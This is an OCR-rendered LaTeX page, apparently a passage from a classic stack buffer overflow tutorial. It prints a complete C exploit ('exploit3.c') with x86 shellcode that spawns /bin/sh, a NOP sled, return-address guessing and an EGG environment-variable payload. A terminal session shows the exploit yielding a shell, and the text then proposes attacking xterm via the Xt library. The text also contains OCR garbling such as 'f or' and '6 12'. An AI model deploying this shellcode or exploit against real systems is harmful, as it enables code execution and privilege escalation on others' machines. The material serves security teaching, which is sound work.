 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[caption=exploit3.c]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
"\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;

  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  for (i = 0; i < bsize/2; i++)
    buff[i] = NOP;

  ptr = buff + ((bsize/2) - (strlen(shellcode)/2));

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

A good selection f or our buffer size is about 100 bytes more than the size of the buffer we are trying to 
overflow. This will place our code at the end of the buffer we are trying to overflow, giving a lot of space for the 
NOPs, but still overwriting the return address with the address we guessed. The buffer we are trying to overflow 
is 512 bytes long, so we'll use 6 12. Let's try to overflow our test program with our new exploit: 

\begin{verbatim}
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}

Whoa! First try! This change has improved our chances a hundredfold. Let's try it now on a real case of a buffer 
overflow. We'll use for our demonstration the buffer overflow on the Xt library. For our example, we'll use 
xterm (all programs linked with the Xt library are vulnerable).  You must be running an X server and allow 
connections to it from the localhost. Set your DISPLAY variable accordingly. 
\end{document}
